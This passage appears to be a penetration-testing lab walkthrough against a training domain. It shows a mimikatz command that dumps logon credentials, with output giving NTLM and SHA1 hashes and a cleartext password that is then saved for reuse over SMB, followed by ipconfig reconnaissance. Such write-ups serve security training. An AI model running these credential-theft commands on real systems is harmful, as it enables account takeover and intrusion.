 ```
PS C:\Users\mlefay> type C:\Flag.txt

S1ngl**************** 📌
```

#### Credentials Extraction

```
PS C:\Windows\system32> C:\Users\Public\mimikatz.exe "token::elevate" "sekurlsa::logonpasswords" "exit"

[SNIP]

Authentication Id : 0 ; 163066 (00000000:00027cfa)
Session           : Service from 0
User Name         : vfrank
Domain            : INLANEFREIGHT
Logon Server      : ACADEMY-PIVOT-D
Logon Time        : 8/2/2025 3:16:22 PM
SID               : S-1-5-21-3858284412-1730064152-742000644-1103
        msv :
         [00000003] Primary
         * Username : vfrank 📌
         * Domain   : INLANEFREIGHT
         * NTLM     : 2e16a00be74fa0bf862b4256d0347e83
         * SHA1     : b055c7614a5520ea0fc1184ac02c88096e447e0b
         * DPAPI    : 97ead6d940822b2c57b18885ffcc5fb4
        tspkg :
        wdigest :
         * Username : vfrank
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : vfrank
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Imply wet Unmasked!
```

```yaml
credentials:
    username: vfrank
    password: 'Imply wet Unmasked!'
    host: 172.16.5.35
    port: 445 (SMB)
```

#### Internal Information Gathering - Network Information

```
PS C:\Windows\system32> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::9841:e140:6c4a:6b50%4
   IPv4 Address. . . . . . . . . . . : 172.16.5.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::9de0:c178:7815:a271%5
```